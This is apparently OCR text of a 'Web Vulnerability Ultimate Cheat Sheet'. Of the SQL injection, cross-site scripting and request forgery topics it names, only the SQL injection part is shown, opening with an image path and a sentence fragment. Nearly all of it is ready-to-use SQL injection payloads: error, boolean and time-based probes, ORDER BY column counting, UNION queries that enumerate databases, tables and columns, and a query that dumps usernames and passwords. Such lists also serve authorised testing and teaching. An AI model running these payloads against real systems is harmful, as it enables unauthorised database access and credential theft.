 **SQL Injection (SQLi)**, **Cross-Site Scripting (XSS)**, and **Cross-Site Request Forgery (CSRF)**.

---

# Web Vulnerability (SQLi, XSS, CSRF) Ultimate Cheat Sheet

## 1. SQL Injection (SQLi)

SQLi involves injecting malicious SQL code into a query to manipulate the database.

### Detection & Identification
```sql
/* Classic Probe for Error-Based SQLi */
' 
" 
` 
') 
") 
`) 
')) 
")) 
`)) 

/* Always True/False Statements */
' OR 1=1-- -
" OR 1=1-- -
' OR 'a'='a
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -  /* Keep adding NULL until error disappears */

/* Time-Based Blind SQLi Probe */
' OR SLEEP(5)-- -
" OR SLEEP(5)-- -
'; WAITFOR DELAY '00:00:05'-- -  /* MSSQL */
' OR BENCHMARK(10000000,MD5(1))-- -
```

### Exploitation Payloads

#### **Union-Based Attacks**
```sql
/* Find number of columns */
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -  /* Continue until error */

/* Extract database version */
' UNION SELECT @@version,NULL-- -
' UNION SELECT version(),NULL-- -  /* PostgreSQL */

/* Extract database names */
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -

/* Extract table names */
' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='database_name'-- -

/* Extract column names */
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'-- -

/* Dump data */
' UNION SELECT username,password FROM users-- -
```
